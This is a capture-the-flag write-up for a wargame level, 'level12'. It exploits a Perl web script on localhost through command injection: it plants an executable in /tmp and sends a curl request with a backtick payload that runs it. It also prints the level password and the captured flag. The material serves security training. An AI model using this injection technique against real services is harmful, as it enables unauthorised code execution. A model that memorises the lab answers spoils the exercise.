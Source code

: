 # level12

## Vulnerability: Bad input checking

level12's password: `fa6v5ateaw21peobuub8ipe6s`

we got some intel from level00

```shell
dr-xr-x---  2 flag12 level12  33 Mar 12  2016 level12

/var/www/level12

/rofs/var/www/level12
```

1. examinate existing files and permissions

```shell
ls -la
ls -la /var/www/level12/level12.pl
cat /var/www/level12/level12.pl
```

shows a perl script that is supposed to run on localhost:4646 as flag12:level12

2. try to connect to it with netcat

```shell
nc localhost 4646
```

waits for an input, and replies `..` as expected when given a random input

3. create a custom file with an uppercase name to trick regex to match

```shell
echo "getflag > /tmp/flag" > /tmp/PWN
chmod +x /tmp/PWN
```

4. inject some code and pwn the flag

```shell
curl 'localhost:4646?x=`/*/PWN`'
cat /tmp/flag
```

gives flag: `g1qKMiRpXf53AWhDaU7FEkczr`
